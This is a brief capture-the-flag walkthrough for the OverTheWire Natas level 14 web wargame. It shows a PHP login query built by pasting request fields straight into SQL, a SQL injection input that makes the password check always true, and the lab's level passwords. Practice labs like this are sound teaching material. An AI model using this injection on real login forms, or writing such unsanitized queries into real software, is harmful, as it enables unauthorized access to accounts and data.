 # Natas Level 13 --> Level 14

**Username:** natas14

**Password:** Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

**URL:**      http://natas14.natas.labs.overthewire.org

## Solution
* Click view sourcecode there you can see the query they use to access, there isn't anything special so we can inject simple code to bypass.
```
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\""; 
```
* Try login with any username and this password which implies that it will be always true.
```
123" or "1"="1
```
* You got the password!!

## Password
> AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
